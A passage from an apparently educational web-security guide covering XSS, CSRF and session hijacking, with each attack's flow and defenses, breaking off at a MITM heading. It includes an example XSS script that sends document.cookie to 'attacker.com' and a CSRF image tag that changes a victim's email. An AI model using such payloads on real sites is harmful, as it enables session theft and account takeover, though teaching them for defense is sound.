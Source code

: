 #### Example:
```html
<script>document.location='http://attacker.com?cookie=' + document.cookie</script>
```

#### Defense:
- Implement **input sanitization** and **output encoding**.
- Use **Content Security Policy (CSP)** headers to restrict script execution.
- Validate all input and escape output properly.

---

### 3. Cross-Site Request Forgery (CSRF)

**CSRF** tricks users into executing unwanted actions on a web application where they are authenticated.

#### Attack Flow:
1. The attacker crafts a malicious website or email containing an HTTP request to a vulnerable website.
2. If the user is logged into the target website, their credentials are used to perform the malicious action (e.g., transferring funds).

#### Example:
```html
<img src="http://example.com/change-email?new_email=attacker@example.com" />
```

#### Defense:
- Use **CSRF tokens** in forms.
- Validate the `Referer` or `Origin` headers.
- Implement **SameSite cookies**.

---

### 4. Session Hijacking

**Session Hijacking** occurs when an attacker steals a user’s session cookie to impersonate them.

#### Attack Flow:
1. The attacker intercepts the session token during a **Man-in-the-Middle (MITM)** attack or via XSS.
2. They use the stolen session token to gain unauthorized access to the user’s account.

#### Defense:
- Use **HTTPS** for secure communication.
- Mark cookies as **HttpOnly** and **Secure**.
- Implement **multi-factor authentication (MFA)** for critical actions.

---

### 5. Man-in-the-Middle (MITM) Attack
